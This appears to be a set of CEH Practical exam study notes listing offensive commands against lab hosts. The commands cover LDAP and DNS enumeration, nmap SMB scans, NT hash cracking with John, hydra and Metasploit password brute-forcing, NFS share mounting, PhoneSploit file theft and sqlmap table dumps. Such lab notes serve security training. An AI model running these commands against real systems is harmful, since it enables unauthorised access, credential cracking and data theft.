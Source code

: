 # **CEH Practical Notes**

Geolocation BillCipher

```
ldapsearch -h 10.10.10.25 -x -s base namingcontexts
ldapsearch -h 10.10.10.25 -x -b "cn=users,dc=CEHORG,dc=COM" "(objectclass=user)" | grep dn 
ldapsearch -x -b "dc=cehorg,dc=com" "*" -h 10.10.10.25 | awk '/dn: / {print $2}' 
```

dig AXFR yourdomain.com @ns


FQDN/Netbios name	nmap -p 445 --script smb-os-discovery 10.10.10.25 or nmap -T4 -p 445 -sC 10.10.10.25

DNS Computer Name	3389

SMB Message signing	nmap -T4 -p 445 -sC 10.10.10.25

whatweb www.certifiedhacker.com

```
john --format=NT hashes.txt
john --show --format=NT
```

```
cd Desktop/CEHtab13
cd Wordlist
hydra -L Usernames.txt -P Passwords.txt ftp://172.16.0.12
```

**Wireshark filters** 
```
http.request.method==POST
tcp.flags.syn == 1 and tcp.flags.ack == 0  Statistics=>Ipv4 Statistics=>Source and Destination Addresses
tcp.flags.syn == 1 DoS 
tcp.srcport == 8888 and tcp.dstport == 9999
```
```
snow.exe -C -p password Confidential.txt
```

```
apt install nfs-common
showmount -e 172.16.0.11
mkdir -p /mnt/linux
mount -t nfs 172.16.0.11:/home /mnt/linux
ls -l /mnt/linux
```

PhoneSploit
4 - shell

9 - copy file /storage/self/primary/DCIM/capture.png or /sdcard/Download/confidential.txt

yersinia F2 x 1 q ==>Wireshark Transaction ID 0x643c9869

```
sqlmap -batch -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="value" --dbs
sqlmap -batch -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="value" -D moviescope --tables
sqlmap -batch -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="value" -D moviescope -T User_Login --dump
```

wpscan -U adam -P password.txt --url http://cehorg.com
```
msfconsole
use auxiliary/scanner/http/wordpress_login_enum
show options
set PASS_FILE password.txt
set RHOST 10.10.10.16
set RPORT 80
set TARGETURI http://cehorg.com
set USERNAME adam
set ENUMERATE_USERNAMES false
set verbose false
run
```


